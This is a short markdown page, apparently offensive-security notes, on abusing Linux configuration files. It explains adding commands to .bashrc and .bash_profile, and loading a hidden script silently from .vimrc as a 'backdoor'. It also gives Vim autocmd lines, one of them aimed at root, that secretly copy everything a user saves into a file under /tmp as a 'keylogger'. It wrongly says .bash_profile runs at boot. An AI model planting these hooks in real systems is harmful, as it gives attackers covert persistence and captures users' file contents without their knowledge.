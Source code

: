 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Config_files
---
```


<span style="font-size: 35px; color:red"><b>Linux Configuration Files</b></span>

You can add bash commands to these file to execute them:
- <span style="color:red">.bash_profile</span>: run when the system boots.
- <span style="color:red">.bashrc</span>: run when a new terminal window is open.

---
&nbsp;

---
<span style="font-size: 25px; color:white"><b>Vim Configuration Backdoor</b></span>

Opening VIM, you can run commands (after the <span style="color:red">:</span>) like <span style="color:red">! touch /tmp/test.txt</span>

Modify <span style="color:red">.vimrc</span> (or create a new one like <span style="color:red">.vimrunscript</span>) adding commands and load them with <span style="color:red">:silent !source ~/.vimrunscript</span> (where <span style="color:red">vimrunscript</span> is a bash script file)
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Vim Keylogger</b></span>
```shell
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```
OR
```shell
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```
